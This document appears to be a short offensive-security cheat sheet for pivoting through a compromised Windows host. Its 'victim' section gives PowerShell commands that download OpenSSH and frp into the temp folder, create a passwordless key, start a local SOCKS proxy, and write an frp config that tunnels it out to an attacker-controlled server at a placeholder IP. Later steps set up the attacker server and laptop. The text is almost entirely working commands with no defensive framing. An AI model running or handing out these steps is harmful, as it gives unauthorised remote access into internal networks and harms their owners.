 # pivoting a computer not bindable

## victim

1) getting socks server

```powershell
cd $env:TEMP
rm -r -fo .\OpenSSH-Win32\
curl "https://github.com/PowerShell/Win32-OpenSSH/releases/download/V8.6.0.0p1-Beta/OpenSSH-Win32.zip" -o openssh.zip
Expand-Archive -LiteralPath openssh.zip -DestinationPath .
cd .\OpenSSH-Win32\
.\ssh-keygen -f id_rsa -N """"
Clear-Content .\sshd_config_default
$curLocation = Get-Location
Add-Content .\sshd_config_default  "AuthorizedKeysFile $curLocation\id_rsa.pub"
.\sshd.exe -f .\sshd_config_default -h id_rsa -p 2222
```

```powershell
$socksPort = 5555
cd $env:TEMP
cd .\OpenSSH-Win32\
.\ssh.exe -D $socksPort -N localhost -p 2222 -i .\id_rsa -o UserKnownHostsFile=a -o StrictHostKeyChecking=no
```


2) setting frp

```powershell
$socksPort = 5555
$attackerServerIp = "1.2.3.4"
$attackerExposePort = 9150
cd $env:TEMP
curl "https://github.com/fatedier/frp/releases/download/v0.37.1/frp_0.37.1_windows_amd64.zip" -o frp.zip
Expand-Archive -LiteralPath frp.zip -DestinationPath .
cd frp_0.37.1_windows_amd64
Clear-Content frpc.ini
Add-Content frpc.ini "[common]"
Add-Content frpc.ini "server_addr = $attackerServerIp"
Add-Content frpc.ini "server_port = 7000"
Add-Content frpc.ini "[ssh_socks]"
Add-Content frpc.ini "type = tcp"
Add-Content frpc.ini "local_ip = 127.0.0.1"
Add-Content frpc.ini "local_port = $socksPort"
Add-Content frpc.ini "remote_port = $attackerExposePort"
.\frpc -c .\frpc.ini
```

## attacker_server

1) setting frp
    - download https://github.com/fatedier/frp/releases
    - ./frps -c ./frps.ini 

## (opcional) attacker_laptop

1) ssh -L localSocksPort:attackerServerIp:attackerExposePort user@attackerServerIp
